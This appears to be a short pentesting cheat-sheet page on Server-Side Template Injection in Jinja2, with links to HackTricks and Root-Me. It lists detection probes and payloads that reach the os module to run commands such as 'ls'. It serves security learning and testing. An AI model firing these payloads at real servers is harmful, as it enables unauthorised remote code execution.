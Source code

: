 # Server-Side Template Injection (SSTI)

[![jinja2_ssti](../../../../_badges/hacktricks/jinja2_ssti.svg)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
[![python_ssti_introduction](../../../../_badges/rootme/web_server/python_ssti_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)

<div class="row row-cols-lg-2"><div>

Server-Side Template Injection occurs when we can inject code that is parsed by a template engine such as [Jinja2](/programming-languages/web/others/templating/jinja2/index.md) in Python.

You may be able to guess the template engine used from the web server, for instance, if it's Python then it's most likely Jinja.
</div><div>

**Example for Jinja2** 🔥 ([article](
https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/))

* Basic Test: `{{ "PoC"|e }}`
* Test if debug is enabled: `{% debug %}`
* Try to print the context `{{ self._TemplateReference__context }}`
* Then, you might be able to perform code injection:

```js!
{{ self._TemplateReference__context.cycler.__init__.__globals__.os }}
{{ cycler.__init__.__globals__.os.system('ls') }}
{{ cycler.__init__.__globals__.os.popen("ls -1a").read() }}
```

If the first payload return something, then try to use the shorter one.
</div></div>